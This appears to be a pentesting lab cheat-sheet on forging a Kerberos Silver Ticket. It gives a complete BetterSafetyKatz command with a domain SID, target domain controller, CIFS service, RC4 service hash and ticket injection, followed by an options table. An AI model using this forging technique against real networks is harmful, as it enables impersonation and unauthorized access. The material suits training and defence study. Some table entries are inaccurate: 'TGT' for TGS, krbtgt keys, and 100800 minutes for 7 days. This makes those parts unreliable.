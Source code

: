 # Silver Ticket

Silver ticket is signed and encrypted by the hash of **service** account which makes it a valid **TGS** ticket.

## Create The Ticket

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden 
/User:Administrator /domain:dollarcorp.moneycorp.local
/sid:S-1-5-21-719815819-3726368948-3917688648 
/target:dcorp-dc.dollarcorp.moneycorp.local
/service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 
/startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/target:</td><td>Target server FQDN</td></tr><tr><td>/service:</td><td>The SPN name of service for which TGS is to be created</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt</td><td>ptt: inject ticket to current process</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes. <br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes.  (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>

